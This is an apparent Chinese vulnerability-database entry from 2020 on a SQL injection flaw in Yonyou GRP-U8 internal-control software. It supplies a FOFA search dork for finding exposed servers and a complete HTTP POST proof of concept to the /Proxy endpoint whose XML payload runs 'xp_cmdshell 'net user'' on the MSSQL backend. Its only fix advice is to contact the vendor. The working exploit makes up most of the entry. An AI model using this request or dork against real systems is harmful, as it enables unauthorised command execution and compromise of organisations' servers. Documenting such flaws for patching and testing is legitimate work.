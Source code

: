 ```yaml
---
title: '用友GRP-U8行政事业内控管理软件SQL注入漏洞'
date: Mon, 21 Sep 2020 01:22:43 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞信息:

用友公司成立于1988年，全面提供具有自主知识产权的企业管理/ERP软件、服务与解决方案，是中国最大的管理软件、ERP软件、集团管理软件、人力资源管理软件、客户关系管理软件及小型企业管理软件提供商。其GRP-U8行政事业内控管理软件特定版本存在SQL注入漏洞，可用于命令执行执行。

#### 漏洞复现:

fofa\_dork: “用友GRP-u8”

##### POC:

```
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache

cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'net user'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET> 
```输出md5值，用于poc验证： ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/微信图片_20200921092131.jpg) 使用MSSQL xp\_cmdshell执行命令 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/微信图片_20200921092204.jpg)

#### 修复方案:

联系用友官方获得安全升级方案